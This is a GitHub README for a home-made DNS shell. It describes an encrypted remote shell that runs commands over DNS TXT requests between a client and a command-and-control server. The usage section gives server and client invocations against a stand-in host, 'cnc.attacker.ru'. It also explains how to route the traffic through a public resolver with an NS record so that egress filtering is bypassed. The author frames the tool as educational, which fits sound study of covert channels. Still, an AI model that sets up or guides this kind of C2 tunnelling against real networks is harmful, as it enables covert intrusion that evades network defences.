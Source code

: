 # DNS Shell

## Introduction
This is a simple dns shell. I've gone to a few security talks lately, and it seems to me people talk of dns shells like they are new and hip...yet they've been around since the late 90's...is it just me who has heard of these for years?

Anyways, this is a pretty simple shell setup. It contains a custom DNS server that sits and listens for TXT request from a custom DNS client.

The shell implementation is pretty ghetto (kind of on purpose...script kiddies need to do some work on their part...).

All comms are encrypted with AES128 with padding and a nonce-based iv (might be insecure...space for cnc is pretty small...hence why it's AES128 instead of AES256 or higher). At some point I'd like to add a layer of asymmetric encrypt to ensure authenticity with the server and that way a private key wouldn't need to be provided on the client side of things.

The nonce system is kind of a mess. I was too lazy to implement a full nonce based resending system...so I just added a delay between sending packets to "hope" they arrive in order...it's on the todo...

Single client only (multiple clients are going to do some weird things...).

Made this just to do it myself...iodine and dnscat are way better than this...

Educational use intended...don't break the law and say I didn't say you shouldn't...

## Usage
This can be used in two ways - the dumb way and the smart way.

#### Dumb way
The dumb way is simply setting up a server and using it like so:

On the server:
```
$ ./server.py
Password:
DNS Serverpress enter for "0.0.0.0":
DNS Port (press enter for 53):
ls -a
.
..
folder_1
...
```

On client:
```
$ ./client.py
Password:
Root (i.e. ".attacker.ru" without quotes): .attacker.ru
DNS Server: attacker.ru
DNS Port (press enter for 53):
```

The dumb way can be stopped by egress filtering on client machines. The smart way is a little more resilient.

#### Smart way
The smart way is to create an NS record on an internet nameservice (like GoDaddy, Namecheap, etc...). Set this to a subdomain (usually can't make a NS on your root domain on these types of systems). I'm going to use `.cnc.attacker.ru` as an example. You are also going to need to setup a server on an internet accessible machine, and give it an A record to `cnc.attacker.ru`. Any DNS requests for `*.cnc.attacker.ru` from clients can now go to an internet DNS (say `8.8.8.8`), which will query `cnc.attacker.ru`, which will send replies back to `8.8.8.8`, which will go back to the client. Egress filtering defeated...

```
$ ./server.py
Password:
DNS Serverpress enter for "0.0.0.0":
DNS Port (press enter for 53):
ls -a
.
..
folder_1
...
```

On client:
```
$ ./client.py
Password:
Root (i.e. ".attacker.ru" without quotes): .cnc.attacker.ru
DNS Server: 8.8.8.8
DNS Port (press enter for 53):
```

## Files
`alpha.py`		- Arbitrary(ish) encoding system.
`b62.py`		- Base62 encoder using alpha.py.
`client.py`		- Client (aka shell).
`cnc.py`		- Non-blocking command line interface.
`crypt.py`		- Encryption scheme (AES128).
`server.py`		- Server (aka shell handler).
`session.py`	- DNS session handler (has a session number that isn't used at the moment...)
`util.py`		- Random utility functions needed.

## Closing
Summary: Simple liitle dns shell with encrypted comms that still needs a lot of work...but it served its purpose...

That's it...
